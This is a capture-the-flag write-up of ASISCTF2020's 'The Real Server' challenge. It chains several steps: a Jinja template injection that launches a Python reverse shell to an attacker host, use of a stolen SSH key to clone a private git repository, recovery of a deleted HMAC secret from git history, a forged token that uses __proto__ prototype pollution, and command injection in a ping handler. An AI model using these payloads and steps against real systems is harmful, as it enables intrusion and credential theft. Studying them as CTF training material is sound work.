

# ASISCTF2020 — The Real Server

## The Real Server

The flag is in `the-real-server` not in `the-fake-server`.

[Link](https://the-healthcheck-server.asisctf.com/)

---



Website Functionality and Interface

Inspecting the response headers, we find that the server is based in Python. Therefore we checked for Template Injection vulnerabilities. 

**HTTP Request:**

```html
GET //ping?address={{3*3}} HTTP/1.1
Host: the-healthcheck-server.asisctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://the-healthcheck-server.asisctf.com/
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
```

**HTTP Response:**

```html
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Wed, 16 Dec 2020 20:09:39 GMT
Connection: close
Content-Type: application/json
Content-Length: 117

{"err":"\n<h2>Error: cannot find **9**</h2>\n<pre>[Errno -2] Name or service not known</pre>","ip":"error","result":[0]}
```

**Getting a Reverse Shell**

```html
attacker$ nc -lvnp 1312

---

GET //ping?address={{config.__class__.__init__.__globals__['os'].popen(request.headers['X-CODE']).read()}} HTTP/1.1
Host: the-healthcheck-server.asisctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
X-CODE: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<REDACTED>",1312));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://the-healthcheck-server.asisctf.com/
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close

```

```python
<imports>

app = Flask(__name__)
api_token = "ewoJInRpZXIiOiAyLAoJImFjY291bnQiOiAiYm05MFgzUm9jbTkzYVc1blgyRjNZWGxmYlhsZmMyaHZkQSIKfQ==:d39131efd320ca3bdd147986f9fe2686bc330d5a0c8765a9b78c25f0fcb8c6df"

'''
ewoJInRpZXIiOiAyLAoJImFjY291bnQiOiAiYm05MFgzUm9jbTkzYVc1blgyRjNZWGxmYlhsZmMyaHZkQSIKfQ==

{
	"tier": 2,
	"account": "bm90X3Rocm93aW5nX2F3YXlfbXlfc2hvdA"
}
'''

# the-real-server
ping_server = "https://the-ping-server.asisctf.com/ping"

<...>
```

```bash
root@02fc8cadcd26:/tmp# python -c "__import__('pty').spawn('/bin/bash')"

root@02fc8cadcd26:/tmp# stty -raw -echo -brkint rows 80

root@02fc8cadcd26:/tmp# export TERM=screen-256color

root@02fc8cadcd26:~/.ssh# cat config
Host the-git-server
        Hostname the-git-server.asisctf.com
        Port 8022
        User git

root@02fc8cadcd26:/tmp# eval $(ssh-agent -s)
Agent pid 5486

root@02fc8cadcd26:/tmp# ls ~/.ssh
config  id_ed25519  id_ed25519.pub

root@02fc8cadcd26:/tmp# ssh-add ~/.ssh/id_ed25519
Identity added: /root/.ssh/id_ed25519 (root@133981c8b288)

root@02fc8cadcd26:/tmp# git clone git@the-git-server:username/the-real-server.git

root@02fc8cadcd26:/tmp/the-real-server# ls
README.md  app.js  package.json  ping.js  token.js
```

```bash
root@02fc8cadcd26:/tmp/the-real-server# git log --stat
commit fa74c47011dd60115cc49359de248740c115442f (HEAD ->
master, origin/master, origin/HEAD)
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:45:51 2020 +0000

    Fix port

 app.js | 2 +-
 1 file changed, 1 insertion(+), 1 deletion(-)

commit 4220825b5538d2afa85f44c0f6dea16970585d43
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:45:06 2020 +0000

    Fix code

 app.js | 6 ++++++
 1 file changed, 6 insertions(+)

commit 58e9c037f11e8fbe1e04474b61af2ae570b8ab05
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:44:19 2020 +0000

    Update files

 .gitignore | 1 +
 secret.js  | 4 ----
 2 files changed, 1 insertion(+), 4 deletions(-)

commit 4da43efc485e255ef9eb1de0c115d63d58e6d044
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:43:06 2020 +0000

    Add code

 app.js       | 53 +++++++++++++++++++++++++++++++++++++++++++++++++
 package.json | 11 +++++++++++
 ping.js      | 22 +++++++++++++++++++++
 secret.js    |  4 ++++
 token.js     | 64 +++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+++
 5 files changed, 154 insertions(+)

commit c13144ba06dd687b85f26b8314e556c15dc652fc
Author: My Name <you@example.com>
Date:   Fri Dec 11 14:41:03 2020 +0000

    Initial commit

 .gitignore | 1 +
 README.md  | 3 +++
 2 files changed, 4 insertions(+)
```

**Inspecting the commits for potential sensitive information:**

```bash
root@02fc8cadcd26:/tmp/the-real-server# git diff 4da43efc485e255ef9eb1de0c115d63d58e6d044
<# git diff 4da43efc485e255ef9eb1de0c115d63d58e6d044
<..>

diff --git a/secret.js b/secret.js
deleted file mode 100644
index a4f49af..0000000
--- a/secret.js
+++ /dev/null
@@ -1,4 +0,0 @@
-module.exports.key = "indiana....let it go";
-module.exports.tempKey = "doctor who";
-
-
```

This seems like the secret key to craft hmac signatures, so let's verify it by using the signature that we have been given already by replicating the hmac creation in bare javascript file `hmac.js`:
```javascript
const crypto = require("crypto");

const key = "indiana....let it go";
const givenSig = "d39131efd320ca3bdd147986f9fe2686bc330d5a0c8765a9b78c25f0fcb8c6df";
const givenPayload = "ewoJInRpZXIiOiAyLAoJImFjY291bnQiOiAiYm05MFgzUm9jbTkzYVc1blgyRjNZWGxmYlhsZmMyaHZkQSIKfQ==";
const hash = crypto.createHmac('sha256', key)
                        .update(givenPayload)
                        .digest('hex');

console.log(hash == givenSig);
```
Indeed the signatures match which confirms that this is the correct key. 

**This code is vulnerable to prototype pollution via `__proto__` class modifier.**

```jsx
// token.js
function setDefault(obj, template) {
        **let result = {};**
        for (const key in obj) {
                if (template[key] == null)
                        continue;
                if (obj[key] == null)
                        continue;
                if (typeof obj[key] !== typeof template[key])
                        continue;
                result[key] = obj[key];
        }

        for (const key in template) {
                if (obj[key] == null || result[key] == null)
                        result[key] = template[key];
        }

        return result;
}
```

```jsx
// token.js
function validate(str) {
        const data = {
                tier: 0,
                account: ""
        };

        try {
                const [v, mac] = str.split(":");
                const hash = crypto.createHmac('sha256', key)
                        .update(v)
                        .digest('hex');

                if (hash !== mac) {
                        return data;
                }

                const j = JSON.parse(Buffer.from(v, 'base64').toString());
                const result = setDefault(j, data);
                return result;
        } catch(e) {
                return data;
        }
}

function getAccessData(token) {
        const r = validate(token);
        console.log(r);
        const hmac = crypto.createHmac('sha256', tempKey)
              .update(r.account)
              .digest('hex');

        if (hmac === "5bf07970e8b7a0de4b628c142633031a69a7693d0364b949479bf7b720d5bcc0") {
                r.canLookup = true;
        }

        return r;
}
```

```jsx
// app.js
<imports>

function validateIp(s) {
        if (typeof s !== 'string')
                throw new Error('IP');

        const parts = s.split(".");
        if (parts.length !== 4)
                throw new Error('IP');

        parts.forEach(x => {
                if (isNaN(x))
                        throw new Error('IP');

                const y = Number.parseInt(x);
                if (!Number.isFinite(y))
                        throw new Error('IP');

                if (y < 0 || y > 255)
                        throw new Error('IP');

        });
}

const port = process.env.PORT || 1337;

const app = express();
app.use(morgan('combined'));
app.use(express.urlencoded({ extended: false }));

app.get('/', (req, res) => {
        res.send(`<h1>Hack the planet!</h1>`);
});

app.get('/ping', async (req, res) => {
        try {
                const {address, apiToken} = req.query;
                const access = accessToken.getAccessData(apiToken);

                if (access.tier < 1)
                        throw new Error('Access Denied');

                **if (access.tier < 5 || access.canLookup !== true) {**
                        validateIp(address);
                }
		// it is possible to bypass the check
		// and hit the ping endpoint
		// achieving RCE
                **const result = await ping(address);**
                res.json({result});
        } catch (e) {
                res.json({result: [0]});
        }
});

app.listen(port, () => {
        console.log(`app listening at ${port}`);
});
```

Insufficient validation is done and therefore the above code has a "blind spot" where values in the request parameter having both **tier ≥ 5** and **canLookup = true**, eventually hit the **ping** endpoint. Therefore we can pass malicious data in the **address** parameter and will not get validated against **validateIP** function. 

So we need to craft a request with the following data:
```
{
	"tier": 10,
	"account": "MISSING VALUE",
	"__proto__": {
		"canLookup": true
	}
}
```
Although trivial, we still need to craft the hmac for this payload first. Since we have already found the hmac key in the steps above, we can use something like this in a `craftToken.js` file:
```javascript
const crypto = require("crypto");

const key = "indiana....let it go";

const payload = {
        "tier": 10,
        "account": "MISSING VALUE",
        "__proto__": {
                "canLookup": true
        }
};

const b64Payload = new Buffer.from(JSON.stringify(payload)).toString("base64");

const hash = crypto.createHmac('sha256', key)
                        .update(b64Payload)
                        .digest('hex');

console.log("apiToken: " + b64Payload + ":" + hash);
```

When invoked with NodeJS (`node craftToken.js`) prints out the encoded payload to use for the apiToken parameter: `eyJ0aWVyIjoxMCwiYWNjb3VudCI6Ik1JU1NJTkcgVkFMVUUifQ==:681116a5b368253770e6af63f2ebebdfc4efd4711e3f416e467c4029c29b7a78`

As the tier is >= 5 and `canLookup` is set to truw by exploiting prototype polution, the following code is then invoked:
```jsx
// ping.js
const Promise = require('bluebird');
const { exec } = require('child_process');
const execAsync = Promise.promisify(exec);

module.exports = async function ping(address) {
        const ping = await execAsync(`ping -c 3 -W 3 ${address}`); <<
        return ping.toString().split("\n")
                .map(x => x.trim())
                .filter(x => x != "")
                .filter(x => x.includes("bytes from"))
                .map(line => {
                        let count = (line.match(/=/g) || []).length;
                        let time = 0;
                        if (count >= 3) {
                                let regExp = /([0-9.]+)[ ]*ms/;
                                let match = regExp.exec(line);
                                time = parseFloat(match[1], 10);
                        }
                        return time;
                });
}
```

The above code is vulnerable to OS Command Injection. Specifically, an we can provide malicious input in the **address** parameter. **execAsync** returns the results of a command run in shell, thus achieving RCE.